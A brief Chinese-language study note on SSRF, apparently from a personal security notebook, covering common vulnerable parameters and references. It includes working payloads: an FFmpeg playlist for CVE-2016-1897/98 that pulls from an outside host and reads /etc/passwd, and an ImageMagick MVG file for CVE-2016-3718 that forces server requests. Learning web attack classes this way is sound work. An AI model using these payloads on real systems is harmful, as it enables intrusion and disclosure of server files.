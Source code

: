 # SSRF (Server Side Request Forgery)
[TOC]
###### tags: `Security` `Web`

利用能接觸到的伺服器，接觸到內網資源
跟 LFI / RFI 的差別在於 SSRF 是發出 Request， LFI / RFI 是包含文件
# Reference
[SSRF Bible](https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/edit)

# Where
## 常見參數名稱
- url, link, proxy, target, host
- URL 預覽、分享
- 網址上傳
- 資源引用

## Other
### XXE
外部實體、參數實體
參考 [XXE (XML External Entity)](https://hackmd.io/@WildfootW/HkBxU2bhH)

### FFMPEG CVE-2016-1897/98
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://gg.tw/a.m3u8|file:///etc/passwd
#EXT-X-ENDLIST
```

### Database 內建函數
#### Postgresql dblink_send_query

### ImageMagick CVE-2016-3718
- 可以發送 HTTP 或 FTP Request
    - payload: ssrf.mvg
    ```
    push graphic-context
    viewbox 0 0 640 480
    fill 'url(http://example.com/)'
    pop graphic-context
    ```
    - `$ convert ssrf.mvg out.png`
